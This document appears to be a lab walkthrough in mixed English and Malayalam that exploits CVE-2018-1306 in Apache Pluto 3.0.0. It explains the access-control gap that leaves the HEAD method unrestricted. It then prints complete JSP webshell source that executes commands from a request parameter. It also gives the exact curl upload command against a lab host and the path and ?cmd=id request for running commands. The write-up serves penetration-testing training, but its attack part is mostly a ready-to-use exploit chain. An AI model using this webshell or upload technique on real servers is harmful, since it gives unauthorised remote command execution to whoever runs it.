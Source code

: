 ## Introduction
-->This exercise covers how you can gain code execution in Apache Pluto 3.0.0 due to an issue in the authorisation logic
-->This course details the exploitation of a vulnerability in Apache Pluto 3.0.0. The exploitation of this issue is based on the following [article](https://cxsecurity.com/issue/WLB-2018090134). This vulnerability allows a malicious user to upload a webshell by tampering with the HTTP method.

# CVE-2018-1306
## Introduction
-->This CVE is based on multiple issues:

-   an issue in access control
-   the ability to upload a filename with a dangerous extension

-->The most interesting (and most common in Java applications) issue comes from the way the access control is defined:
```java
	<security-constraint>
	    <web-resource-collection>
	      <web-resource-name>portal</web-resource-name>
	      <url-pattern>/portal</url-pattern>
	      <url-pattern>/portal/*</url-pattern>
	      <http-method>GET</http-method>
	      <http-method>POST</http-method>
	      <http-method>PUT</http-method>
	    </web-resource-collection>
	    <auth-constraint>
	      <role-name>pluto</role-name>
	    </auth-constraint>
	  </security-constraint>
```
-->The access control doesn't prevent the `HEAD` method (amongst others). This can be used to access the following URL (for example): `/pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0` using `HEAD` instead of `GET` or `POST`.

## Building a Webshell
-->To build a Webshell, we will need to write some JSP, the following code can be used:
```jsp
<FORM METHOD=GET ACTION='webshell.jsp'>
	<INPUT name='cmd' type=text>
	<INPUT type=submit value='Run'>
	</FORM>
	<%@ page import="java.io.*" %>
	<%
	   String cmd = request.getParameter("cmd");
	   String output = "";
	   if(cmd != null) {
	      String s = null;
	      try {
	         Process p = Runtime.getRuntime().exec(cmd,null,null);
	         BufferedReader sI = new BufferedReader(new
	InputStreamReader(p.getInputStream()));
	         while((s = sI.readLine()) != null) { output += s+"</br>"; }
	      }  catch(IOException e) {   e.printStackTrace();   }
	   }
	%>
	<pre><%=output %></pre>
```
-->ith oru webshell.jsp enna file il aakuka.enit ee webshell aan namal code execution vendi use chyunath ok
## Exploitation
-->To exploit this issue, you need to send a multipart request that contains a file parameter named `file` that contains a malicious JSP to the following endpoint: `/pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0`.
-->This can be done using a Proxy in repeater mode or `curl`.

## Gaining Commands execution
-->Once you upload your JSP file, you should be able to access the JSP file in the following directory: `/PortletV3AnnotatedDemo/temp/`

## Conclusion
-->This exercise explained how to take advantages of a very common misconfiguration in Java applications. And how this can be easily exploited to trigger unexpected behaviours. I hope you enjoyed learning with PentesterLab.

# Video Explanation
-->lab thurakumbol thane namuk apache pluto dashboard ilekula login page aan kanikunath
-->so pluto:pluto enna default credential koduth send adikumbol namuk keran patunila. sol ini namuk webshell upload chyan nokam
-->theory part il webshell und ath oru .jsp file il aaki save chyanam.
-->mukalil thoery part il access control chyuna code und.athil nokiyal kanam GET,POST,PUT polulla methods oke restrict chyunund.ennal HEAD,DELETE polula methods athil illa.so namuk HEAD method use chyth webshell add chyan nokam ok
-->The access control doesn't prevent the `HEAD` method (amongst others). This can be used to access the following URL (for example): `http://website-name/pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0` using `HEAD` instead of `GET` or `POST`.
-->ini namuk curl command vech ee webshell upload chyam
->`curl -X HEAD 'http://ptl-407001ad-6a73c4b8.libcurl.so/pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0' -F "file=@webshell.jsp" -vv`
-->ipol webshell upload aakum karanma namal HEAD enna method aan use chythath
-->so ini namal `/PortletV3AnnotatedDemo/temp/` enna pathilek pokuka.karanam avide aan shell upload chythath ok
-->http://ptl-407001ad-6a73c4b8.libcurl.so/pluto/portal  ingane aan namude login page ile url undavuka.so ithil ulla /pluto/portal remove chyth venam weshell upload chytha path ilek poka ie, ->http://ptl-407001ad-6a73c4b8.libcurl.so/PortletV3AnnotatedDemo/temp/webshell.jsp
-->ipol namuk webshell access chyan patunund.so ini onengil aa input il thane id enoke koduthal namuk command execute chyan patum ok allengil last ?cmd=id enn koduthalum namuk code execute chyan patum ok